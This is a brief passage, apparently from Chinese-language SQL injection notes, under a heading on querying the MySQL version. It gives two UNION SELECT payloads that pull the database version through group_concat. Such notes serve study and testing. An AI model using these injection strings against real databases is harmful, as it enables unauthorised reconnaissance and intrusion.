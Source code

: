 ![image-20250221225827274](static/image/image-20250221225827274-0229631.png)

#### 查询MySQL版本

```mysql
union select null,group_concat(version()),NULL
union select 1,group_concat(version()),3
```
